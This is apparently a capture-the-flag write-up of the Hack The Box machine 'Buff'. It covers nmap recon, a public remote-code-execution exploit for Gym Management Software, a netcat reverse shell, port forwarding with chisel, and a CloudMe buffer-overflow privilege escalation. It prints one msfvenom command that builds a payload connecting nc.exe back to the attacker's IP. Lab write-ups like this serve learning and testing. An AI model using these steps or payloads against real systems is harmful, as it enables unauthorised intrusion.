










Buff is a Windows machine. The ip of the box is 10.10.10.198.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/buff 10.10.10.198`

And i found only:
- *webserver apache* on port 8080

I navigate on `http://10.10.10.198:8080` and got a webpage

 

so i start to navigate and on `contact` page i found 

 

that says that this site is made with `Gym Management Software 1.0`.
I search for some exploit and found [this](https://www.exploit-db.com/exploits/48506)(RCE).

# User
Now i run the exploit 

and can execute  arbitrary commands as user `shaun` and can take the user's flag 

# Root

Now i upload `netcat` and connect with a rev shell

and move to `C:\Users\shaun\Downloads` and found `CloudMe_1122.exe` 

I search for CloudMe and found there is BOF a vulnerability and found a [exploit](https://www.exploit-db.com/exploits/48389).

The `cloud me` running on the remote machine and i cannot access remotely furthermore the machine hasn't python so cannot execute the exploit. 

So i need to forward the port 8888 on my machine, for this i used `chisel`.
Furthermore i need to upload the payload for the exploit.

> msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.152' -b '\x00\x0A\x0D' -f python -v payload

Finally run the exploit and got shell as `Administrator`

and the flag

